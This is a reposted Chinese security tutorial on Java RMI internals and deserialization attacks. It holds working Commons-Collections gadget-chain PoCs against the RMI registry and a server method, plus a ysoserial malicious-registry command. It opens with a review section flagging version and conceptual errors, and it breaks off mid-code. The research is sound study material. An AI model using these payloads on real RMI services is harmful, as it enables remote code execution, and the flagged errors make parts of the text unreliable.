## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：示例跨旧JDK、JDK8u131/CC3.2.1；标题UnicastRef&lt;=8u231与后文8u231已加过滤冲突

代码与实验材料：全文1234行读完；四攻击方向、Registry白名单与DGC回连独立调试链，依赖旧JDK/CC和方法参数，不可泛化当前JDK

来源证据范围：先知原文8706、OpenJDK JEP290、ysoserial源码、360绕过分析及多研究引用

- **适用与权限边界（1）**：JEP290配置结论与自身分析矛盾；依据：先称必须手动设置否则全不过滤，随后展示Registry默认registryFilter；应区分全局应用过滤、Registry和DGC内置过滤。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **适用与权限边界（2）**：版本边界混乱；依据：UnicastRef标题jdk&lt;=8u231，下一节称8u231 dirty已修；CC1称1.8下不能用忽略具体更新边界，未逐实验记录精确JDK。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **结论使用边界（3）**：基础RMI概念有误；依据：动态代理对象仍实现接口；实现Remote不自动export；不必继承UnicastRemoteObject也可显式导出；序列化发送多次误写反序列化。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（4）**：代码与链名称对应不一致；依据：JEP290实验代码是AnnotationInvocationHandler/TransformedMap却文字称CC5；getwork添加实现但原接口没同步给出；依赖反射fields\[0\]布局不稳定。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **适用与权限边界（5）**：教学代码返回值及配置路径需纠正；依据：动态InvocationHandler算returnValue却return null；conf/security/java.properties需核为java.security；笼统高JDK仅同机注册未给具体限制版本。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# JAVA RMI 反序列化攻击 and JEP290 Bypass 分析 - 先知社区

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [xz.aliyun.com](https://xz.aliyun.com/t/8706)

*   ## 说在前面

入门了反序列化之后对 RMI、JNDI、LDAP、JRMP、JMX、JMS 这些都不了解，所以打算一个问题一个问题的解决它们，这这篇专注于 RMI 的学习，从 RPC 到 RMI 的反序列化再到 JEP290 都过了一遍。参考了很多很多师傅的文章，如果有写的不对的地方还望师傅们不吝赐教。

RMI 基础
------

### RPC

RPC（Remote Procedure Call）远程过程调用，就是要像调用本地的函数一样去调远程函数。它并不是某一个具体的框架，而是实现了远程过程调用的都可以称之为 RPC。比如 RMI(Remote Method Invoke 远程方法调用) 就是一个实现了 RPC 的 JAVA 框架。

RPC 的演化过程可以看这个视频进行了解：[https://www.bilibili.com/video/BV1zE41147Zq](https://www.bilibili.com/video/BV1zE41147Zq)

对于视频里面实现 RPC 的方式我画了一个简单的流程图来理解：

[](../../.resource/remote/c1fac2913f24d4be5411b473da872295c06e56e172916557f5374c0a4941f65f.png)

Client 如果想要远程调用一个方法，就需要通过一个 Stub 类传递类名、方法名与参数信息给 Server 端，Server 端获取到这些信息后会从本地服务器注册表中找到具体的类，再通过反射获取到一个具体的方法并执行然后返回结果。

### JAVA 代理

**代理模式**

代理模式是一种设计模式，提供了对目标对象额外的访问方式，即通过代理对象访问目标对象，这样可以在不修改原目标对象的前提下，提供额外的功能操作，扩展目标对象的功能。

[](../../.resource/remote/d743a845a82902b7107417d0aa1162e73ae7ec6ceef4bdb2e3af883f434cbc32.png)

`Proxy`在`Client`直接调用`DoAction()`中间加了一层处理，正是这层处理扩展了对象的功能。

**静态代理**

这种代理方式需要代理对象和目标对象实现一样的接口。

例子如下：

*   接口类：IUserDao.java

```
package proxy1;

public interface IUserDao {
    public void save();
}


```

*   目标对象：UserDao.java

```
package proxy1;
// 实现IUserDao接口
public class UserDao implements IUserDao{
    @Override
    public void save() {
        System.out.println("保存数据");
    }
}


```

*   静态代理对象：UserDapProxy.java

```
package proxy1;
// 也需要实现IUserDao接口
public class UserDapProxy implements IUserDao{
    private IUserDao target;

    public UserDapProxy(IUserDao target) {
        this.target = target;
    }

    @Override
    public void save() { // 重写方法
        System.out.println("doSomething before"); // 执行前可以加的操作
        target.save(); // 实际上需要调用的方法
        System.out.println("doSomething after"); // 执行后可以加的操作
    }
}


```

*   测试类：TestProxy.java

```
package proxy1;

public class TestProxy {
    public static void main(String[] args) {
        // 目标对象
        IUserDao target = new UserDao();
        // 代理对象
        UserDapProxy proxy = new UserDapProxy(target);
        // 通过代理调用方法
        proxy.save();
    }
}


```

[](../../.resource/remote/e89f8c723ef50d538db2edf17412a61100257a58d4397e2fb925dce8fe3bbd0e.png)

可以看到，在不修改原来对象功能的前提下，在调用方法前后增加了功能。但是这种代理模式有很一些缺点：

1.  冗余。由于代理对象要实现与目标对象一致的接口，会产生过多的代理类。
2.  不易维护。一旦接口增加方法，目标对象与代理对象都要进行修改。

**动态代理**

动态代理利用 JAVA 中的反射，动态地在内存中构建代理对象，从而实现对目标对象的代理功能。动态代理又被称为 JDK 代理或接口代理。动态代理对象不需要实现接口，但是要求目标对象必须实现接口，否则不能使用动态代理。

*   动态代理对象：UserProxyFactory.java

```
package proxy1;

import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;

public class UserProxyFactory {
    private Object target;

    public UserProxyFactory(Object target) {
        this.target = target;
    }

    public Object getProxyInstance() {
        // 返回一个指定接口的代理类实例，该接口可以将方法调用指派到指定的调用处理程序。
        return Proxy.newProxyInstance(
                target.getClass().getClassLoader(), // 指定当前目标对象使用类加载器
                target.getClass().getInterfaces(), // 目标对象实现的接口的类型
                new InvocationHandler() { // 事件处理器
                    @Override // 重写InvocationHandler累类的invoke方法，通过反射调用方法
                    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
                        System.out.println("doSomething before");
                        Object returnValue = method.invoke(target, args);
                        System.out.println("doSomething after");
                        return null;
                    }
                }
        );
    }
}


```

*   测试类：TestDynamicProxy.java

```
package proxy1;

public class TestDynamicProxy {
    public static void main(String[] args) {
        IUserDao taget = new UserDao();
        System.out.println(taget.getClass()); // 获取目标对象信息
        IUserDao proxy = (IUserDao) new UserProxyFactory(taget).getProxyInstance(); // 获取代理类 
        System.out.println(proxy.getClass()); // 获取代理对象信息
        proxy.save(); // 执行代理方法
    }
}


```

[](../../.resource/remote/9dd85484b5db50aeef1d8e14c1a1b631e2c299a5cb9fc4243be9bd1f52a71f09.png)

**参考文章**

*   [十分钟了解 java 动态代理](https://www.bilibili.com/video/BV1Dt41187wj)
*   [10 分钟看懂动态代理设计模式](https://blog.csdn.net/weixin_33778778/article/details/87999148)
*   [Java 三种代理模式：静态代理、动态代理和 cglib 代理](https://segmentfault.com/a/1190000011291179)

### JAVA RMI

定义：

> RMI（Remote Method Invocation）为远程方法调用，是允许运行在一个 Java 虚拟机的对象调用运行在另一个 Java 虚拟机上的对象的方法。 这两个虚拟机可以是运行在相同计算机上的不同进程中，也可以是运行在网络上的不同计算机中。
> 
> Java RMI：Java 远程方法调用，即 Java RMI（Java Remote Method Invocation）是 Java 编程语言里，一种用于实现远程过程调用的应用程序编程接口。它使客户机上运行的程序可以调用远程服务器上的对象。远程方法调用特性使 Java 编程人员能够在网络环境中分布操作。RMI 全部的宗旨就是尽可能简化远程接口对象的使用。

JAVA 中 RMI 的简单例子：

**Server 端**

定义一个远程接口：User.java

```
package eval_rmi;

import java.rmi.Remote;
import java.rmi.RemoteException;

public interface User extends Remote {
    String name(String name) throws RemoteException;
    void say(String say) throws RemoteException;
    void dowork(Object work) throws RemoteException;
}


```

在 Java 中，只要一个类 extends 了 java.rmi.Remote 接口，即可成为存在于服务器端的远程对象。其他接口中的方法若是声明抛出了 RemoteException 异常，则表明该方法可被客户端远程访问调用。

> JavaDoc 描述：Remote 接口用于标识其方法可以从非本地虚拟机上调用的接口。任何远程对象都必须直接或间接实现此接口。只有在 “远程接口” （扩展 java.rmi.Remote 的接口）中指定的这些方法才可被远程调用。

远程接口实现类：UserImpl.java

```
package eval_rmi;

import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;

// java.rmi.server.UnicastRemoteObject构造函数中将生成stub和skeleton
public class UserImpl extends UnicastRemoteObject implements User{
    // 必须有一个显式的构造函数，并且要抛出一个RemoteException异常
    public UserImpl() throws RemoteException{
        super();
    }
    @Override
    public String name(String name) throws RemoteException{
        return name;
    }
    @Override
    public void say(String say) throws  RemoteException{
        System.out.println("you speak" + say);
    }
    @Override
    public void dowork(Object work) throws  RemoteException{
        System.out.println("your work is " + work);
    }
}


```

远程对象必须继承 java.rmi.server.UniCastRemoteObject 类，这样才能保证客户端访问获得远程对象时，该远程对象将会把自身的一个拷贝以 Socket 的形式传输给客户端，此时客户端所获得的这个拷贝称为 “存根”，而服务器端本身已存在的远程对象则称之为 “骨架”。其实此时的存根是客户端的一个代理（Stub），用于与服务器端的通信，而骨架也可认为是服务器端的一个代理（skeleton），用于接收客户端的请求之后调用远程方法来响应客户端的请求。

这个 Stub 和 RPC 同理，Skeleton 可以理解为是服务端的 Stub。

服务端实现类：UserServer.java

```
package eval_rmi;

import java.rmi.Naming;
import java.rmi.registry.LocateRegistry;

public class UserServer {
    public static void main(String[] args) throws Exception{
        String url = "rmi://127.0.0.1:3333/User";
        User user = new UserImpl(); // 生成stub和skeleton,并返回stub代理引用
        LocateRegistry.createRegistry(3333); // 本地创建并启动RMI Service，被创建的Registry服务将在指定的端口上监听并接受请求
        Naming.bind(url, user); // 将stub代理绑定到Registry服务的URL上
        System.out.println("the rmi is running : " + url);
    }
}


```

这个类的作用就是注册远程对象, 向客户端提供远程对象服务。将远程对象注册到 RMI Service 之后，客户端就可以通过 RMI Service 请求到该远程服务对象的 stub 了，利用 stub 代理就可以访问远程服务对象了。

Naming 类的介绍：

```
/** Naming 类提供在对象注册表中存储和获得远程对远程对象引用的方法 
 *  Naming 类的每个方法都可将某个名称作为其一个参数， 
 *  该名称是使用以下形式的 URL 格式（没有 scheme 组件）的 java.lang.String: 
 *  //host:port/name 
 *  host：注册表所在的主机（远程或本地)，省略则默认为本地主机 
 *  port：是注册表接受调用的端口号，省略则默认为1099，RMI注册表registry使用的著名端口 
 *  name：是未经注册表解释的简单字符串 
 */  
//Naming.bind("//host:port/name", h);

```

**Client 端**

UserClient.java

```
package eval_rmi;

import java.rmi.Naming;
import java.rmi.registry.LocateRegistry;

public class UserClient {
    public static void main(String[] args) throws Exception{
        String url = "rmi://127.0.0.1:3333/User";
        User userClient = (User)Naming.lookup(url); // 从RMI Registry中请求stub
        System.out.println(userClient.name("test")); // 通过stub调用远程接口实现
        userClient.say("world"); // 在客户端中调用，在服务端输出
    }
}


```

**RMI 测试**

先启动`UserServer.java`，再启动`UserClient.java`：

[](../../.resource/remote/ed61e85d29260e5f75178f06c011789825393069748234797ebfbe9e9833738f.png)

[](../../.resource/remote/dd8970f4f7c794970d974532d8b5db8ead8eda60cfadcb4d2f518688a7c6b14d.png)

同时在服务端：

[](../../.resource/remote/b1e86e68d8ba24b2feddd50e081e05ad09864fb73cc77009b7d0607c521e353e.png)

**直接使用 Registry 实现的 RMI**

除了使用 Naming 的方式注册 RMI 之外，还可以直接使用 Registry 实现。代码如下：

Server 端：

```
package eval_rmi;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class UserServer {
    public static void main(String[] args) throws Exception{
        Registry registry = LocateRegistry.createRegistry(3333); // 本地主机上的远程对象注册表Registry的实例
        User user = new UserImpl(); // 创建一个远程对象
        registry.rebind("HelloRegistry", user); // 把远程对象注册到RMI注册服务器上，并命名为HelloRegistr
        System.out.println("rmi start at 3333");
    }
}


```

Client 端：

```
package eval_rmi;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class UserClient {
    public static void main(String[] args) throws Exception{
        Registry registry = LocateRegistry.getRegistry(3333); // 获取注册表
        User userClient = (User) registry.lookup("HelloRegistry"); // 获取命名为HelloRegistr的远程对象的stub
        System.out.println(userClient.name("test")); 
        userClient.say("world");
    }
}


```

**总结**

根据 RMI 的整个过程画出一个的流程图如下:

[](../../.resource/remote/2856ff009db79d9f027b93f98b43316c5ad8672a75bda951e55c2fd57d4d2f8c.png)

### JRMP

> Java 远程方法协议（英语：Java Remote Method Protocol，JRMP）是特定于 Java 技术的、用于查找和引用远程对象的协议。这是运行在 Java 远程方法调用（RMI）之下、TCP/IP 之上的线路层协议（英语：Wire protocol）。

简单理解就是：JRMP 是一个协议，是用于 Java RMI 过程中的协议，只有使用这个协议，方法调用双方才能正常的进行数据交流。

文章在`Bypass JEP290`部分有提到`JRMP端`，是指实现了 JRMP 接收、处理和发送请求过程的服务。

RMI 源码分析
--------

Registry 的获取有两种方式分别是`LocateRegistry.createRegistry`和`LocateRegistry.getRegistry`。通过这两种方式对注册中心操作的流程也不一样，如`bind`、`rebind`、`lookup`等。这里把两种不同的方式称作`本地操作注册中心`和`远程操作注册中心`。下面通过分析这两种方式的调用过程来了解序列化和反序列化在其中是怎么起作用的，为后面反序列化漏洞的分析作铺垫。

### Server 端注册中心 (Registry)

java.rmi.registry 公共接口注册表

> 注册表是一个简单的远程对象注册表的远程接口，该注册表提供了用于存储和检索绑定有任意字符串名称的远程对象引用的方法。 bind，unbind 和 rebind 方法用于更改注册表中的名称绑定，而 lookup 和 list 方法用于查询当前名称绑定。  
> 在其典型用法中，注册表启用 RMI 客户端引导程序：它为客户端提供了一种简单的方法来获取对远程对象的初始引用。因此，通常使用众所周知的地址（例如，众所周知的 ObjID 和 TCP 端口号）导出注册表的远程对象实现（默认值为 1099）。

#### LocateRegistry.createRegistry

测试代码：

```
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class UserServerTest {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(3333);
        User user = new UserImpl();
        registry.bind("HelloRegistry", user);
        System.out.println("rmi start at 3333");
    }
}


```

根据 createRegistry 源码的调用流程，流程图及调用栈如下，其中各种参数的传递这里就不分析了。

[](../../.resource/remote/b38ee9bfa5ee4ebf1181b87e8fcb5a9e59025ea8322c13aad669b571b0304ceb.png)

*   创建 RemoteStub 时的调用栈

[](../../.resource/remote/e52e8a6f12d15a2bbad8c28dd7cd324c730bd41221cf30683f44baabebb26389.png)

*   创建 Skeleton 的调用栈

[](../../.resource/remote/7d40b17f77bbe003ded109e373119749ebc42cd03d86e132c498e927a2e84350.png)

*   创建 Socket 服务开启监听调用栈

[](../../.resource/remote/7141426c3e0c364b29c137cf1080a1bc85dd764994b065a5b5e2d401c8bf8d27.png)

*   接收与处理请求的调用栈

[](../../.resource/remote/bd691f8ce68467d1851a607d3522e132427168849cf930fe2116fcf55808ad83.png)

处理请求：

[](../../.resource/remote/5d7099dad74e263682b08997f9d837e0d25eb016bc3ea371bda30a9e4052eee3.png)

需要特别注意的就是这里真正处理请求的部分，以`bind`操作为例，这里对`var3`这个变量进行了判断，并根据不同的数字进行不同的处理，最终调用`var6.bind`进行绑定，最终把服务绑定在`this.bingdings`上。其中`var3`对应关系如下：

*   0->bind
*   1->list
*   2->lookup
*   3->rebind
*   4->unbind

从上图过程中也可以看出来，这里对传入的对象进行了一个反序列化的处理。那如果传入的内容是一个恶意对象的话，就可能造成反序列化漏洞。

这里再看一下如果是使用`LocateRegistry.createRegistry`本地获取了注册中心之后，直接绑定服务是什么流程。跟一下就可以看到过程比较简单，经过了一个 checkAccess 的检测之后就把服务加入了`this.bindings`里了。(上面对请求处理也会调用到这个方法）

[](../../.resource/remote/0d56564ffd086d92c69e4bbe9be58e8b8d34427ca28eb575f7780a05597d83a5.png)

这里的 checkAccess 就是为了检查绑定时是否是在同一个服务器上。

> 在低版本的 JDK 中，Server 与 Registry 是可以不在一台服务器上的，而在高版本的 JDK 中，Server 与 Registry 只能在一台服务器上，否则无法注册成功。

[](../../.resource/remote/e23f1e3a1a66c3aef4cdcc72ac4ae28231e55649217760001b50451683f03c8e.png)

#### LocateRegistry.getRegistry

在`LocateRegistry.createRegistry`的流程图中可以看到，注册中心对端口进行了监听并接受与处理请求。接着再来看通过`LocateRegistry.getRegistry`来远程获取注册中心与请求数据的流程是怎么样的。

首先通过`LocateRegistry.getRegistry`获取到的是`RegistryImpl_Stub`对象：

[](../../.resource/remote/7ffa9dd1d198153d3e34f12549c0e866b5b2e216dda000ee17528831d3f98b6d.png)

跟入 bind 方法：

[](../../.resource/remote/14d500bb28f19566efaa3294e9ad62f3f51d8f98dfa51a076132cb23c0910083.png)

把传入的服务名称和对象都进行反序列化传递给类型为`ObjectOutput`的`var4`变量。并通过 invoke 方法传递到 Server 的`Registry`那边进行处理。来看一下`newCall`方法：

[](../../.resource/remote/ece45819719abc461560e3dc0d5326e3dffc6b930f1bd10459a61e86e5659514.png)

这里传递进来的`var3`为`0`，继续传入到了`new StreamRemoteCall`里：

[](../../.resource/remote/0b7deac7e71669f19da5ea8ba612513f895a0347aa2fd64386a17c20362023bf.png)

最后将这个 var3 发送到服务端那边进行处理。

以这个 bind 为例，所以远程绑定的流程就是：

1.  先告诉 Server 端我们要进行什么样的操作，比如`bind`就传递一个`0`...
2.  再把服务名和对象都进行反序列化发给 Server 端
3.  Server 端获取到了服务名和对象名之后，反序列化调用`var6.bind()`最终绑定到`this.bindings`上

同样画出流程图如下：  
[](../../.resource/remote/6fd86c73b07f751c24851be7a6f32fc2babe5114c8de5173e600a9f738a78433.png)

在这个过程中，存在一个序列化和反序列化的过程，所以存在反序列化漏洞的风险。

### Client 端调用方法

测试代码：

```
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class UserClient {
    public static void main(String[] args) throws Exception{
        Registry registry = LocateRegistry.getRegistry(3333); // 获取注册表
        User userClient = (User) registry.lookup("HelloRegistry"); // 获取命名为HelloRegistr的远程对象的stub
        System.out.println(userClient.name("test"));
        userClient.say("world");
    }
}


```

通过 lookup 获取到的是一个 Proxy 代理对象：

[](../../.resource/remote/e6673f1aa3f2109bf525f8631e504665a0b7dfb6ed838cb9b07136faf949962b.png)

跟入调用`name`的过程，到了`invoke`方法处，会调用`invokeRemoteMethod`方法：

[](../../.resource/remote/89e9405cc298443a4537e726baf6bcc57e5b9a4a048bb9f854c2ac92b9d3eadb.png)

这里传入了所调用的代理、方法名、参数和`method`的`hash`值到`this.ref.invoke`方法中。`this.ref`中包含了远程服务对象的各类信息，如地址与端口、ObjID 等。

[](../../.resource/remote/7b81fa69ed82ea648ae354534d57db19f28027f4a12256ee5bcdf2b230bd8486.png)

[](../../.resource/remote/45e45f4767fe3b79360d69de0ea0f33d5aebf2e333dbe23757dcff5c9b0a378f.png)

invoke 函数里就是对这些数据进行处理 (参数会序列化) 发送到 Server 端那边。具体这里就不再跟入了。

再来看看 Server 那边是怎么处理传过来的数据的，Server 端处理 Client 端传递过来的数据在 调用栈如下：

[](../../.resource/remote/a633db0df97bd7f9ebc6137d7f75789c66914a1ea3e51a8e12cd3aa26cc1f9bc.png)

sun/rmi/server/UnicastServerRef.class#dispatch

[](../../.resource/remote/bf9703bef47918d342b16062cfd9f3caf4e76b7c08be1549cbc970e2063a6b2b.png)

这里会对传递过来的参数进行反序列化，再使用反射调用方法。我们来看下`unmarshalValue`方法：

[](../../.resource/remote/19c31eab1ca76c1fe26df92bea45c44d3d728cb2ce00586f4109067d0795be9f.png)

在 Client 端有一个对应的`marshalValue`，是为了序列化参数。

总结一下调用过程：Client 端通过 Stub 代理将参数都序列化传递到 Server 端，Server 端反序列化参数通过反射调用方法获取结果返回。当然如果返回的内容是一个对象的话，返回后同样会进行反序列化过程。

接着来看不同的场景下的反序列化利用：

RMI 反序列化攻击
----------

根据不同场景下的攻击画出的流程图如下：

[](../../.resource/remote/7d15ea8a96bd4ca52fd505a41401faeb50d056846340c8e15e468ddb269a9fe9.png)

四种攻击的方式的利用过程如下：

### 一、服务端与客户端攻击注册中心

服务端和客户端攻击注册中心的方式是相同的，都是远程获取注册中心后传递一个恶意对象进行利用。

#### bind() & rebind()

根据之前我们的分析，远程调用`bind()`绑定服务时，注册中心会对接收到的序列化的对象进行反序列化。所以，我们只需要传入一个恶意的对象即可。这里用的是 Common-Collection3.1 的 poc 作为例子：

```
package SimpleRMI_2;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;

public class UserServerEval {
    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[] {String.class, Class[].class},
                        new Object[] {"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[] {Object.class, Object[].class},
                        new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] {String.class},
                        new Object[] {"open -a Calculator"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        innerMap.put("value", "Threezh1");
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        Class AnnotationInvocationHandlerClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cons = AnnotationInvocationHandlerClass.getDeclaredConstructor(Class.class, Map.class);
        cons.setAccessible(true);
        InvocationHandler evalObject = (InvocationHandler) cons.newInstance(java.lang.annotation.Retention.class, outerMap);
        Remote proxyEvalObject = Remote.class.cast(Proxy.newProxyInstance(Remote.class.getClassLoader(), new Class[] { Remote.class }, evalObject));
        Registry registry = LocateRegistry.createRegistry(3333);
        Registry registry_remote = LocateRegistry.getRegistry("127.0.0.1", 3333);
        registry_remote.bind("HelloRegistry", proxyEvalObject);
        System.out.println("rmi start at 3333");
    }
}


```

[](../../.resource/remote/a2ce172fb4cab76441de28cd34511bd85f657a594dae9c78d99eac3fe912d6f6.png)

这里有一个需要注意的点就是调用`bind()`的时候无法传入`AnnotationInvocationHandler`类的对象，必须要转为 Remote 类才行。这里使用了下面的方式进行转换：

```
InvocationHandler evalObject = (InvocationHandler) cons.newInstance(java.lang.annotation.Retention.class, outerMap); // 将
Remote proxyEvalObject = Remote.class.cast(Proxy.newProxyInstance(Remote.class.getClassLoader(), new Class[] { Remote.class }, evalObject));


```

`AnnotationInvocationHandler`本身实现了`InvocationHandler`接口，再通过代理类封装可以用`class.cast`进行类型转换。又因为反序列化存在传递性，当`proxyEvalObject`被反序列化时，`evalObject`也会被反序列化，自然也会执行 poc 链。（存在疑问：为什么要用代理类封装才行？）

Remote.class.cast 可以参考：[关于 JAVA 中的 Class.cast 方法](https://blog.csdn.net/axzsd/article/details/79206172) 这个方法的作用就是强制转换类型。  
反序列化过程参考：[序列化和反序列化](https://zhuanlan.zhihu.com/p/183763564)

除了`bind()`操作之外，`rebind()`也可以这样利用。但是`lookup`和`unbind`只有一个`String`类型的参数，不能直接传递一个对象反序列化。得寻找其他的方式。

#### unbind & lookup

`unbind`的利用方式跟`lookup`是一样的。这里以`lookup`为例。

注册中心在处理请求时，是直接进行反序列化再进行类型转换，转换流程如图所示：

[](../../.resource/remote/4b10e5e2ffa4f4332adad34014ae9d65488895d6a64ceb922af15814f2a159bd.png)

如果我们要控制传递过去的序列化值的话，不能直接传递给`lookup`这个方法，因为它的参数是一个`String`类型。但是它发送请求的流程是可以直接复制的，只需要模仿`lookup`中发送请求的流程，就能够控制发送过去的值为一个对象。

[](../../.resource/remote/08b4a04bd88fdf7c2c60658a382e990a339e8b386893ea183ea7b2ac623134ea.png)

构造出来的 POC 如下：

```
package SimpleRMI_2;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import sun.rmi.server.UnicastRef;

import java.io.ObjectOutput;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.Operation;
import java.rmi.server.RemoteCall;
import java.rmi.server.RemoteObject;
import java.util.HashMap;
import java.util.Map;

public class UserServerEval2 {
    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[] {String.class, Class[].class},
                        new Object[] {"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[] {Object.class, Object[].class},
                        new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] {String.class},
                        new Object[] {"open -a Calculator"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        innerMap.put("value", "Threezh1");
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        Class AnnotationInvocationHandlerClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cons = AnnotationInvocationHandlerClass.getDeclaredConstructor(Class.class, Map.class);
        cons.setAccessible(true);
        InvocationHandler evalObject = (InvocationHandler) cons.newInstance(java.lang.annotation.Retention.class, outerMap);
        Remote proxyEvalObject = Remote.class.cast(Proxy.newProxyInstance(Remote.class.getClassLoader(), new Class[] { Remote.class }, evalObject));
        Registry registry = LocateRegistry.createRegistry(3333);
        Registry registry_remote = LocateRegistry.getRegistry("127.0.0.1", 3333);

        // 获取super.ref
        Field[] fields_0 = registry_remote.getClass().getSuperclass().getSuperclass().getDeclaredFields();
        fields_0[0].setAccessible(true);
        UnicastRef ref = (UnicastRef) fields_0[0].get(registry_remote);

        // 获取operations
        Field[] fields_1 = registry_remote.getClass().getDeclaredFields();
        fields_1[0].setAccessible(true);
        Operation[] operations = (Operation[]) fields_1[0].get(registry_remote);

        // 跟lookup方法一样的传值过程
        RemoteCall var2 = ref.newCall((RemoteObject) registry_remote, operations, 2, 4905912898345647071L);
        ObjectOutput var3 = var2.getOutputStream();
        var3.writeObject(proxyEvalObject);
        ref.invoke(var2);

        registry_remote.lookup("HelloRegistry");
        System.out.println("rmi start at 3333");
    }
}


```

[](../../.resource/remote/4d4b0a44e5ac7a825c40e8b7b244c5422bad08f6fd805e4eb92c907bca895397.png)

可以看到，即使报了字符转换的`error`，还是利用成功了。

除了这种伪造请求，还可以`rasp hook请求代码，修改发送数据`进行利用，现在还没接触过 rasp，就先不复现了。

### 二、注册中心攻击客户端与服务端

从上面的代码中也可以看出来，客户端和服务端与注册中心的参数交互都是把数据序列化和反序列化来进行的，那这个过程中肯定也是存在一个对注册中心返回的数据的反序列化的处理，这个地方也存在反序列化漏洞风险。(详细分析可以看 Bypass JEP290 部分)

可以用 ysoserial 生成一个恶意的注册中心，当调用注册中心的方法时，就可以进行恶意利用。

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 12345 CommonsCollections1 'open /System/Applications/Calculator.app'


```

开启注册中心：

[](../../.resource/remote/a2c006f6425041c3cc84873555f968d49c1daa078eaf99ee8cb9df433b667eee.png)

客户端测试代码：

```
package SimpleRMI_2;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class UserClientEval {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",12345);
        registry.list();
    }
}


```

执行了之后就可以看到命令执行成功了。

[](../../.resource/remote/7dc8450e33f91a4cf2620c3b137d559a23289a84b1826c05a04bf9f76d1dbb4c.png)

除了`list()`之外，其余的操作都可以进行利用：

```
list()
bind()
rebind()
unbind()
lookup()

```

例如`bind()`：

[](../../.resource/remote/82bf0490084d6b61e474cbb7269b8874e5b748126b3c49d80c1ea6305afef908.png)

### 三、客户端攻击服务端

如果注册服务的对象接收一个参数为对象，那么可以传递一个恶意对象进行利用。比如这里可以传递一个 Common-collection3.1 反序列化漏洞 poc 构造出的一个恶意对象作为参数利用：

[](../../.resource/remote/4e0d1f647df3ba0a34474ff947a517a8d44cd1fbdb7f05889d6ff3457d3fb00e.png)

POC：

```
package eval_rmi;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.rmi.Naming;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;

public class UserClient {
    public static void main(String[] args) throws Exception{
        String url = "rmi://127.0.0.1:3333/User";
        User userClient = (User)Naming.lookup(url);
        System.out.println(userClient.name("test"));
        userClient.say("world");// 这里会在server端输出
        userClient.dowork(getpayload());
    }

    public static Object getpayload() throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a Calculator"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);

        Map map = new HashMap();
